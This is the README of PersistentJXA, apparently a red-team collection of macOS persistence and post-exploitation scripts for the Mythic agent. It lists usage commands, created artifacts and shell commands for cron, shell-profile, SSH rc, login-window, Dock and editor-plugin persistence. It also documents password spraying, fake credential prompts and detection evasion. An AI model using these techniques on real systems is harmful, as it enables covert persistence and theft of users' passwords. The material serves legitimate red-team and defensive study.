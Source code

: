 # PersistentJXA
Collection of macOS persistence methods and miscellaneous tools in JXA  <br />
Related blog posts: 
- https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5
- https://posts.specterops.io/are-you-docking-kidding-me-9aa79c24bdc1
- https://posts.specterops.io/saving-your-access-d562bf5bf90b

# Usage
* In Mythic (Apfell Agent) :

```JavaScript
jsimport (Selected file)
jsimport_call <NameOfPersistenceScript>(ScriptArguments)
```


| Project | Description | Usage | Artifacts Created | Commandline Commands Executed
| :------ | :---------- | :----------- | :----------- | :----------- |
| **AtomPersist** |  Persistence using the Atom init script. Appends the Atom init script to execute our command. <br /> Persistence executes upon Atom opening. |jsimport_call AtomPersist('osascript -l JavaScript -e ...') | Modification to end of: <br /> /System/Volumes/Data/Users/{User}/.atom/init.coffee | N/A ||
| **BashProfilePersist** |  Modifies user's bash profile to execute script if the persistence process (current implementation assumes osascript) is not already running. If Catalina system then .zshenv is modified. <br /> Persistence executes on terminal open. | jsimport_call BashProfilePersist('osascript -l JavaScript -e ...', 'no') |  $HOME/.bash_profile or  $HOME/.zshenv <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh|
| **CalendarPersist** | Persistence via macOS Calendar.app alerts. This script will create new events and inserts them into the calendar with an alert that executes an application. There is additional funcitionality to modify exsiting events, list calendars, list events, and hide calendars. <br /> Persistence executes upon the event alert which triggers the specified persistence application. See https://github.com/FSecureLABS/CalendarPersist for usage details and background | jsimport_call persist_calalert("Fake Meeting", "/Users/Shared/Persist.app", 60, "daily", 1, 3, "FB825EFC-C65F-4959-8BDC-EBDF9E886C45")) | /Users/{USER}/Calendars/Calendar Cache | ***If hide_calendar function used:*** <br /> sh -c defaults write com.apple.iCal DisabledCalendars -dict MainWindow '({uid})'|
| **CronJobPersistence** | Persistence using CronJobs. This script will create a hidden file (share.sh) in the current user's Public/Drop Box folder. Writes a cron job with a default interval of 15mins which executes the hidden script.  <br />  (Note: This command generates a user prompt for Catalina. If the user clicks “Don’t Allow” the command should fail with an “operation not permitted"). <br /> Persistence executes every 15 mins. | jsimport_call CronJobPersistence('#!/bin/zsh \n osascript -l JavaScript -e ...') | $HOME/Public/Drop\ Box/.share.sh <br /> crontab entry | sh -c echo "$(echo '15 * * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" \| crontab - <br /> <br />  sh -c (Persistence Action)|
| **DockPersist** | Modifies the apple dock plist for persistence. Requires an application to be present on target. Persistence executes upon user interaction. | jsimport_call DockPersist("Safari", "com.apple.automator.Safari","yes") <br /> or <br /> jsimport_call DockPersist("Google Chrome", "com.apple.automator.Google-Chrome","yes") | $HOME/Library/Preferences/com.apple.dock.plist |  ***If ReloadNow function used:*** <br /> /usr/bin/killall Dock |
| **FinderSyncPlugins** |  Persistence using Finder Sync Extensions. Requires and app on the target to be setup for abuse. It searches the app for the required files and registers them. <br /> See https://objective-see.com/blog/blog_0x11.html for how to setup. <br />  Persistence executes on login.  |  jsimport_call FinderSyncPlugins('/Users/Shared/SyncTest.app') | N/A | pluginkit -a </some/path/persist.appex> & <br /> <br /> pluginkit -e use -i <FinderSynsBundleID> & |
| **iTermAppScript** | Persistence using the iTerm2 application startup script. Appends the application script for iTerm2 to execute our command. If the folder does not exist then one will be created. <br /> Persistence executes upon iTerm2 opening. <br /> See https://theevilbit.github.io/beyond/beyond_0002/ for more details.|jsimport_call iTermAppScript('osascript -l JavaScript -e ...') | modification to end of /Library/Application\ Support/iTerm2/Scripts/AutoLaunch/iTerm.py | sh -c (Persistence Action) |
| **LoginScript** | **Requires Root** Modifies login window plist for persistence. Persistence executes on login. | jsimport_call LoginScript('#!/bin/zsh \n osascript -l JavaScript -e ...') | /var/root/Library/Preferences/com.apple.loginwindow.plist <br />  <br />/Users/Shared/.security/test.sh |  sh -c (Persistence Action) |
| **PeriodicPersist** | **Requires Root** Create a daily job in /etc/periodic/daily. Persistence executes  daily. | jsimport_call PeriodicPersist('osascript -l JavaScript -e ...') | /etc/periodic/daily/111.clean-hist | sh -c (Persistence Action)|
| **ScreenSaverPersist** | Modifies the screensaver plist for persistence. Requires a .saver at ~/Library/Screen Savers/ to be present on target. Persistence executes upon screensaver triggering. Current implementation sets screensaver at 1 minute. <br />  <br /> **Note: Processes started from the screensaver are sandboxed**  <br /> See https://theevilbit.github.io/beyond/beyond_0016/ for details on the entitlements.  | jsimport_call ScreenSaverPersist("Blank") <br /> | $HOME/Library/Preferences/ByHost/com.apple.screensaver.[Hardware-UUID].plist | /usr/bin/killall -hup cfprefsd |
| **SSHrc** |  Modifies or creates SSH rc file to execute persistence when the user logs in with SSH and if the persistence process (current implementation assumes osascript) is not already running. <br /> See https://twitter.com/0xdade/status/1373145566943711235?s=20 for more details. | jsimport_call SSHrc('itsatrap','osascript -l JavaScript -e ...', 'no') |  /Users/'userName'/.ssh/rc <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> /Users/'userName'/.security/apple.sh <br />  /Users/'userName'/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh /Users/'userName'/.security/apple.sh <br /> <br /> sh /Users/'userName'/.security/persist.sh |
| **SublimeTextAppScriptPersistence** | Persistence using the Sublime Text application script. Appends the application script for Sublime to execute our command.. <br /> Persistence executes upon Sublime opening. <br /> See https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/ for more details.|jsimport_call SublimeTextAppScriptPersistence('osascript -l JavaScript -e ...') | modification to end of /Applications/Sublime\ Text.app/Contents/MacOS/sublime.py | sh -c (Persistence Action) |
| **SublimeTextPluginPersistence** | Persistence using Sublime Text plugins. Creates a plugin file that is executed upon the opening of Sublime. <br />  Persistence executes upon Sublime opening. | jsimport_call SublimeTextPluginPersistence('/Users/Shared/inject.dylib')| $HOME/Library/Application\ Support/Sublime\ Text\  [2 or 3] /PrettyText/PrettyText.py  | N/A |
| **TermPref** | Modifies the terminal plist. Current implementation shows an indictator to the end user of the command run upon each new terminal. Persistence executes upon new terminal window. <br />  <br />  See https://theevilbit.github.io/beyond/beyond_0020/ for details.  | jsimport_call TermPref('osascript -l JavaScript -e ...') <br /> | $HOME/Library/Preferences/com.apple.Terminal.plist | /usr/bin/killall -hup Terminal |
| **VimPluginPersistence** | Persistence using Vim plugins. Creates a plugin file that is executed  upon the opening of vim. <br />  Persistence executes upon vim opening. | jsimport_call VimPluginPersistence('http://path/to/hosted/apfellpayload')  | $HOME/.vim/plugin/d.vim | sh -c (Persistence Action) |
| **xbarPlugin** | Persistence using xbar plugins. Creates a plugin file that is executed  upon the opening of xbar. <br />  Persistence executes upon xbar opening. Concept from @bradleyjkemp | jsimport_call xbarPlugin('osascript -l JavaScript -e ...')  | $HOME/Library/Application\ Support/xbar/plugins/xbarUtil.py | sh -c (Persistence Action) |

# Misc Scripts / Tools

| Project | Description | Usage | Artifacts Created | Commandline Commands
| :------ | :---------- | :----------- | :----------- | :----------- |
| **DylibHijackScan** | JXA version of Patrick Wardle's tool that searches applications for dylib hijacking opportunities. May generate user pop up if looking into protected fodlers. Requires xcode installed on 10.14.1| jsimport_call DylibHijackScan()  | N/A | "sh -c  lsof \| tr -s ' ' \| cut -d' ' -f9 \| sed '/^$/d' \| grep '^/'\| sort \| uniq" <br /> sh -c file "placeholder"  <br /> sh -c  otool -l "placeholder" <br /> |
| **InjectCheck** | Process Injection Checker. The tool enumerates the Hardened Runtime, Entitlements, and presence of Electron files to determine possible injection opportunities | jsimport_call InjectCheck("All") <br /> or <br /> jsimport_call InjectCheck("/Applications/Firefox.app") | N/A | N/A |
| **JamfInfo** | Jamf Plist Inspector. List of Jamf configuration details and Azure information (if applicable). Inspects the plist located at /Library/Preferences/com.jamfsoftware.jamf.plist | jsimport_call JamfInfo()| N/A | N/A |
| **PasswordSpray** | Local Account Password Sprayer. The tool leverages the Open Directory Framework to test passwords which is not subject to account lockout | jsimport_call PasswordSpray("itsatrap","Password1,Password2,Password3") | N/A | N/A |
| **PrivilegedHelperToolSpoof** | Tools searches the installed Privileged Helper Tools "/Library/PrivilegedHelperTools" and leverages legitimate icons and information in an attempt to gain user password credentials. The tool prompts again (with slightly different text) if the first password entry is blank. If no helper tool then default prompt for creds. | jsimport_call PrivHelpToolSpoof() | N/A | sh -c launchctl plist __TEXT,__info_plist /Library/PrivilegedHelperTools/ <arrary> \| grep -A1 AuthorizedClients" |
| **OutlookUpdatePrompt** | Tool which prompts the user for and update in an attempt to gain password credentials. Attempts to bring a prompt using outlook icon if installed otherwise uses standard cog. Returns credentials from prompt entry to the user. | jsimport_call OutlookUpdatePrompt() | N/A | N/A |
| **WorkflowTemplate** | A template for Automator to execute JXA. This is to evade simple detections on commandline osascript. After replacing the placeholder (JXA PAYLOAD HERE) with the desired js script, it can be executed by  /usr/bin/automator /path/to/file/Workflow.wflow. Requires the file to be on host but can be leveraged in combination with the above persistence methods | /usr/bin/automator /path/to/file/Workflow.wflow | /path/to/file/Workflow.wflow  | /usr/bin/automator /path/to/file/Workflow.wflow|
